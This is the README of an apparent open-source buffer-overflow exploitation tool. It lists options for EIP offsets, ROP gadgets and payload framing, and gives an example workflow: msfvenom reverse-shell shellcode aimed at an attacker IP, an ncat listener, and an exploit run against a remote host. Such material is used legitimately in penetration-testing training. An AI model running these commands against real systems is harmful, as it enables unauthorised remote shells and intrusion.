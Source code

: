 # bof

Simple tool to detect and exploit buffer overflows.

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

usage: bof.py [-h] [-H HOST] [-p PORT] -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS] [-d] [-v]

Exploit buffer overflows.

    options:
      -h, --help            show this help message and exit
      -H HOST, --host HOST  Target host
      -p PORT, --port PORT  Target port
      -o OFFSET, --offset OFFSET
                            EIP offset
      -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
      -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
      -s SIZE, --size SIZE  Payload size
      -sf SUFFIX, --suffix SUFFIX
                            Payload suffix, Ie. \n
      -pf PREFIX, --prefix PREFIX
                            Payload prefix, Ie. USER
      -a ARCH, --arch ARCH  Target architecture. x86 / amd64
      -O OS, --os OS        Target OS. windows / linux
      -d, --dry             Dry run. Print would be paylad.
      -v, --debug           Show debug information

Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

  $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f python -a x86 -b "\x00\x09\x0a\x0d\xff" > shellcode.py

Listen for shell

  $ ncat -lvp 4444

Run exploit

  $ ./exploit.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'

Run by passing a binary and search for a JPM ESP ROP automatically

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

